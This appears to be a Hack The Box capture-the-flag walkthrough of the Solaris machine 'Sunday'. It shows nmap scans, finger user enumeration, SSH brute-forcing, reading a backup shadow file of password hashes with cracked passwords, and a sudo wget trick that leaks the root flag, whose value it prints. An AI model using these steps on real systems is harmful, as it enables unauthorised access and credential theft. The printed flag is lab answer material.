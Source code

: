 10.10.10.76

# nmap shows port 79 is open
# And let's also find additional open ports
root@kali > nmap -p- 10.10.10.76 --max-repries 0
# We found additional ports, let's run targeted scan against those:
root@kali > nmap -sV -sC  -p 79,111,22022,34579,51166 10.10.10.76
    PORT      STATE SERVICE VERSION
    79/tcp    open  finger  Sun Solaris fingerd
    |_finger: No one logged on\x0D
    111/tcp   open  rpcbind 2-4 (RPC #100000)
    22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
    | ssh-hostkey:
    |   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
    |_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
    34579/tcp open  unknown
    51166/tcp open  unknown

# let's bruteforce users
root@kali > ./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76

    ######## Scan started at Sun Jun 30 05:32:50 2019 #########
    access@10.10.10.76: access No Access User                     < .  .  .  . >..nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >..             
    admin@10.10.10.76: Login       Name               TTY         Idle    When    Where..adm      Admin                              < .  .  .  . >..lp    
      Line Printer Admin                 < .  .  .  . >..uucp     uucp Admin                         < .  .  .  . >..nuucp    uucp Admin                   
         < .  .  .  . >..dladm    Datalink Admin                     < .  .  .  . >..listen   Network Admin                      < .  .  .  . >..          
    anne marie@10.10.10.76: Login       Name               TTY         Idle    When    Where..anne                  ???..marie                 ???..       
    bin@10.10.10.76: bin             ???                         < .  .  .  . >..                                                                          
    dee dee@10.10.10.76: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..          
    jo ann@10.10.10.76: Login       Name               TTY         Idle    When    Where..jo                    ???..ann                   ???..           
    la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..         
    message@10.10.10.76: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..    
    miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..miof                  ???..mela                  ???..        
    sammy@10.10.10.76: sammy                 pts/2        <Apr 24, 2018> 10.10.14.4          ..                                                            
    sunny@10.10.10.76: sunny                 pts/3        <Apr 24, 2018> 10.10.14.4          ..
    sys@10.10.10.76: sys             ???                         < .  .  .  . >..
    zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
    ######## Scan completed at Sun Jun 30 06:04:07 2019 #########
    13 results.

# sammy and sunny look active because we see the records of connections on Apr 24, 2018 from 10.10.14.4
# Let's check root user
root@kali:/opt/finger-user-enum# finger root@10.10.10.76
    Login       Name               TTY         Idle    When    Where
    root     Super-User            pts/3        <Apr 24, 2018> sunday

# It tells us the machine name: sunday

# We can bruteforce ssh and find the password for sunny : sunday

# Let's collect the data
sunny@sunday : sudo -l
    User sunny may run the following commands on this host:
        (root) NOPASSWD: /root/troll
sunny@sunday: sudo /root/troll
    testing
    uid=0(root) gid=0(root)
# troll command doesn't seem to be interesting

# Let's check interesting folders on / directory
sunny@sunday: ls /
    backup  boot   dev      etc     home    lib         media  net  platform  root   sbin    tmp  var
    bin     cdrom  devices  export  kernel  lost+found  mnt    opt  proc      rpool  system  usr

# Backup looks unusual
sunny@sunday:~$ cd /backup/
sunny@sunday:/backup$ ls
    agent22.backup  shadow.backup
sunny@sunday:/backup$ cat shadow.backup
    mysql:NP:::::::
    openldap:*LK*:::::::
    webservd:*LK*:::::::
    postgres:NP:::::::
    svctag:*LK*:6445::::::
    nobody:*LK*:6445::::::
    noaccess:*LK*:6445::::::
    nobody4:*LK*:6445::::::
    sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
    sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

# We can bruteforse the hasesh and find a password for sammy : cooldude!

sammy@sunday:~$ sudo -l
    User sammy may run the following commands on this host:
        (root) NOPASSWD: /usr/bin/wget

# We can run wget as root and read the flag
sammy@sunday:~$ sudo /usr/bin/wget -i "/root/root.txt"
    /root/root.txt: Invalid URL fb40fab61d99d37536daeec0d97af9b8: Unsupported scheme
    No URLs found in /root/root.txt.

